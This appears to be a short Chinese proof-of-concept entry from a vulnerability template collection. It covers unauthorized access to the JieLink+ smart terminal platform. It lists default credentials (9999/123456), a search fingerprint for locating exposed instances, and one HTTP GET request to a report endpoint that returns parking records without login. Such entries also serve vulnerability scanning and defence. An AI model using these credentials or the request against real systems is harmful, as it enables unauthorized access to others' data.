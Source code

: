 ﻿# JieLink+智能终端操作平台 未授权访问2

> 更新时间：2024-01-19

> 漏洞编号：

> 漏洞说明：账号：9999 密码：123456

> 漏洞特征：title=="JieLink+智能终端操作平台"

> 验证脚本：HTTP

```
GET /Report/ParkInsideRecord/Index HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：

> 验证文件来源：JieLink+智能终端操作平台 未授权访问2.poc
